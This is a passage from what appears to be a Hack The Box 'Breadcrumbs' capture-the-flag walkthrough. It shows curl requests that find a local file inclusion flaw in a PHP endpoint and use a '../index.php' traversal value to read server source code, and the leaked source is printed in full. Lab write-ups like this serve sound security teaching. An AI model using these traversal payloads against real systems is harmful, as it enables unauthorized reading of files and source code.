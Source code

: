 As a test, we first set `title` and `author` param as `a`.<br>
And we got some result. I think it searches the titles and authors that contains the value we give and prints them out.

## LFI

Let's try other function and see what we get.<br>
Again we give the value `a` to the param for a test.

```bash
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> curl -s \
        -X POST http://10.10.10.228/includes/bookController.php \
        -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0" \
        -H "Connection: keep-alive" \
        -H "X-Requested-With: XMLHttpRequest" \
        -d "book=a&method=1"
<br />
<b>Warning</b>:  file_get_contents(../books/a): Failed to open stream: No such file or directory in <b>C:\Users\www-data\Desktop\xampp\htdocs\includes\bookController.php</b> on line <b>28</b><br />
false
```

Nice!! This time we got an error, did you see the function?

```php
file_get_contents(../books/a)
```

Rather than using a DB to get the contents, it just reads the files located at the `books` directory in the web server.<br>
And this thing I think can be lead to LFI (Local File Inclusion)!

```bash
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> curl -s \
        -X POST http://10.10.10.228/includes/bookController.php \
        -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0" \
        -H "Connection: keep-alive" \
        -H "X-Requested-With: XMLHttpRequest" \
        -d "book=../index.php&method=1"  
"<?php session_start();\r\n?>\r\n<html lang=\"en\">\r\n    <head>\r\n        <title>Library<\/title>\r\n        <meta charset=\"utf-8\">\r\n        <meta http-equiv=\"X-UA-Compatible\" content=\"IE=edge\">\r\n        <meta name=\"viewport\" content=\"width=device-width, initial-scale=1\">\r\n        <link rel=\"stylesheet\" href=\"https:\/\/maxcdn.bootstrapcdn.com\/bootstrap\/4.0.0\/css\/bootstrap.min.css\" integrity=\"sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW\/dAiS6JXm\" crossorigin=\"anonymous\">\r\n        <script src=\"https:\/\/ajax.googleapis.com\/ajax\/libs\/jquery\/3.2.1\/jquery.min.js\"><\/script>\r\n        <link rel=\"stylesheet\" type=\"text\/css\" href=\"css\/main.css\">\r\n        <link rel=\"stylesheet\" type=\"text\/css\" href=\"css\/all.css\">\r\n    <\/head>\r\n\r\n    <nav class=\"navbar navbar-default justify-content-end\">\r\n        <div class=\"navbar-header justify-content-end\">\r\n            <button type=\"button\" class=\"navbar-toggle btn btn-outline-info p-3 m-3\" data-toggle=\"collapse\" data-target=\".navbar-collapse\"><i class=\"fas fa-hamburger\"><\/i><\/button>\r\n        <\/div>\r\n\r\n        <div class=\"collapse navbar-collapse justify-content-end mr-5\">\r\n             <ul class=\"navbar-nav\">\r\n                <li class=\"nav-item\"><a class=\"nav-link text-right\" href=\"#\"><i class=\"fas fa-home\"><\/i> Home<\/a><\/li>\r\n            <\/ul> \r\n        <\/div>\r\n    <\/nav>\r\n    <body class=\"bg-dark text-white\">\r\n        <main class=\"container-fluid\">\r\n            <div class=\"container-fluid bg-dark text-center pt-5\" id=\"start\">\r\n                <div class=\"container-fluid\">\r\n                    <h1 id=\"main-title\">Library<\/h1>\r\n                    <hr style=\"background-color:white;\" class=\"w-50 mb-5\">\r\n                <\/div>\r\n                <div class=\"container-fluid pt-5\">\r\n                    <a class=\"btn-outline-orange\" href=\"php\/books.php\">Check books.<\/a>\r\n                <\/div>\r\n            <\/div>\r\n        <\/main>\r\n        <?php include \"includes\/footer.php\";?>\r\n    <script src=\"https:\/\/cdn.jsdelivr.net\/npm\/bootstrap@4.5.3\/dist\/js\/bootstrap.bundle.min.js\" integrity=\"sha384-ho+j7jyWK8fNQe+A12Hb8AhRq26LrZ\/JpcUGGOn+Y7RsweNrtN\/tE3MoK7ZeZDyx\" crossorigin=\"anonymous\"><\/script>\r\n    <script type=\"text\/javascript\" src='js\/main.js'><\/script>\r\n    <\/body>\r\n\r\n\r\n<\/html>\r\n"
```